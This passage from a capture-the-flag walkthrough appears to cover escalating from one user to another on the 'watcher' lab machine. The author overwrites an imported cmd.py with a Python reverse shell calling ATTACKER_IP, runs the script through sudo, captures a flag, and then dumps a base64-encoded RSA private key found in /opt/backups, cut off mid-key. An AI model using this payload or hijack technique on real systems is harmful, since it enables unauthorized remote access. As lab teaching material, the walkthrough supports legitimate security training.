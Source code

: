 ```

os.system(cmd)
```

if we analyzed the `will_script.py` it will import the `cmd.py`,

We will modify the `cmd.py` and add our python reverse shell

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > cmd.py
```

and by running the command that we saw when we run the `sudo -l`

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 2`

We will get reverse shell

```
will@watcher:~/scripts$ id
id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
will@watcher:~/scripts$ 
```

We then can get the flag

```
will@watcher:/home/will$ cat flag
cat flag_6.txt 
FLAG{but_i_thought_my_script_was_secure}
will@watcher:/home/will$ 
```

Going back to the linpeas that I run, I remember there is a `backups` folder inside `/opt` that we do not have access earlier.

We can access it now under will's account

```
will@watcher:/opt/backups$ cat key
cat key.b64 
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4ekZZL3RXMTg4VzAwZ3k5dzUxYktTS0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
dERNQXo0T3FickxCNQpmSi9pVWNZandPQkh0M05Oa3VVbTZxb0VmcDRHb3UxNHlHek9pUmtBZTRI
UUpGOXZ4RldKNW1YK0JIR0kvdmoyCk52MXNxN1BhSUtxNHBrUkJ6UjZNL09iRDd5UWU3OE5kbFF2
TG5RVGxXcDRuamhqUW9IT3NvdnNDZ1lFQTMrVEUKN1FSNzd5UThsMWlHQUZZUlhJekJncDVlSjJB
QXZWcFdKdUlOTEs1bG1RL0UxeDJLOThFNzNDcFFzUkRHMG4rMQp2cDQrWThKMElCL3RHbUNmN0lQ
TWVpWDgwWUpXN0x0b3pyNytzZmJBUVoxVGEybzFoQ2FsQVF5SWs5cCtFWHBJClViQlZueVVDMVhj
dlJmUXZGSnl6Z2Njd0V4RXI2Z2xKS09qNjRiTUNnWUVBbHhteC9qeEtaTFRXenh4YjlWNEQKU1Bz
K055SmVKTXFNSFZMNFZUR2gydm5GdVR1cTJjSUM0bTUzem4reEo3ZXpwYjFyQTg1SnREMmduajZu
U3I5UQpBL0hiakp1Wkt3aTh1ZWJxdWl6b3Q2dUZCenBvdVBTdVV6QThzOHhIVkk2ZWRWMUhDOGlw
NEptdE5QQVdIa0xaCmdMTFZPazBnejdkdkMzaEdjMTJCcnFjQ2dZQWhGamkzNGlMQ2kzTmMxbHN2
TDRqdlNXbkxlTVhuUWJ1NlArQmQKYktpUHd0SUcxWnE4UTRSbTZxcUM5Y25vOE5iQkF0aUQ2L1RD
WDFrejZpUHE4djZQUUViMmdpaWplWVNKQllVTwprSkVwRVpNRjMwOFZuNk42L1E4RFlhdkpWYyt0
bTRtV2NOMm1ZQnpVR1FIbWI1aUpqa0xFMmYvVHdZVGcyREIwCm1FR0RHd0tCZ1FDaCtVcG1UVFJ4
```